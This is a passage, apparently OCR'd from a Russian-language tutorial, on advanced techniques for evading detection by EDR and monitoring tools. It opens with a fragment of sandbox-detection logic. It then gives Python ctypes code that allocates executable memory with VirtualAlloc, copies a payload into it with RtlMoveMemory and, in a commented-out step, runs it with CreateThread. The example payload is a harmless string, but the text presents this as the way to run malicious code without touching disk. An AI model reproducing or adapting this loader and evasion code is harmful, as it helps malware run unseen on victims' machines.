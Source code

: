 ```python
        print("Нет ввода (EOF). Возможно, песочница. Завершение.")
        # exit()
```

**Часть 4: Продвинутые Техники Уклонения от Обнаружения**

Эти методы нацелены на обход более сложных систем защиты, таких как EDR (Endpoint Detection and Response) и продвинутые системы мониторинга.

1.  **Динамическая Загрузка DLL/Кода из Памяти (Reflective DLL Injection, In-Memory Execution)**
    Вместо того чтобы сохранять вредоносный файл или DLL на диск (что легко отслеживается), код загружается и выполняется непосредственно из памяти.
    *   **Пример (концептуальный, Windows): Загрузка "DLL" из памяти**
        Этот пример демонстрирует выделение памяти, копирование в нее байт-кода (здесь – сильно урезанная base64 строка, имитирующая DLL) и создание потока для его выполнения. EDR системы отслеживают такие паттерны (VirtualAlloc -> WriteProcessMemory/RtlMoveMemory -> CreateRemoteThread/CreateThread).
```python
        import ctypes
        import base64

        # Это ОЧЕНЬ УПРОЩЕННАЯ имитация. Реальный шеллкод или DLL будут значительно сложнее.
        # Это base64 от простой строки "Hello from memory!" для демонстрации.
        # В реальности это был бы машинный код.
        shellcode_b64 = "SGVsbG8gZnJvbSBtZW1vcnkh" # "Hello from memory!"
        # Для реального шеллкода это были бы байты, например:
        # shellcode_bytes = b"\x90\x90\xCC..." # NOP, NOP, INT3 (Breakpoint)

        try:
            # Для Windows
            kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)

            # Декодируем наш "шеллкод"
            code_bytes = base64.b64decode(shellcode_b64)
            code_len = len(code_bytes)

            # 1. Выделяем память с правами на выполнение (PAGE_EXECUTE_READWRITE = 0x40)
            # VirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect)
            # MEM_COMMIT | MEM_RESERVE = 0x3000
            ptr = kernel32.VirtualAlloc(None, code_len, 0x3000, 0x40)
            if not ptr:
                print(f"Ошибка VirtualAlloc: {ctypes.get_last_error()}")
                # exit(1)

            # 2. Копируем наш код в выделенную память
            # RtlMoveMemory(Destination, Source, Length)
            # Буфер из Python должен быть ctypes.c_char_p или приведен к нему
            buffer_from_bytes = ctypes.create_string_buffer(code_bytes)
            kernel32.RtlMoveMemory(ctypes.c_void_p(ptr), buffer_from_bytes, code_len)
            
            print(f"Код скопирован в память по адресу: {hex(ptr)}")

            # 3. Создаем поток для выполнения кода в памяти
            # CreateThread(lpThreadAttributes, dwStackSize, lpStartAddress, lpParameter, dwCreationFlags, lpThreadId)
            # Закомментировано, так как реальное выполнение этого "текста" как кода приведет к ошибке.
            # В реальном сценарии здесь был бы указатель на начало валидного машинного кода.
            # thread_handle = kernel32.CreateThread(None, 0, ctypes.c_void_p(ptr), None, 0, None)
            # if not thread_handle:
            #     print(f"Ошибка CreateThread: {ctypes.get_last_error()}")
            # else:
            #     print(f"Поток создан с хэндлом: {thread_handle}. Ожидание завершения...")
            #     # Ожидаем завершения потока (бесконечно)
            #     # kernel32.WaitForSingleObject(thread_handle, -1) # 0xFFFFFFFF (INFINITE)
```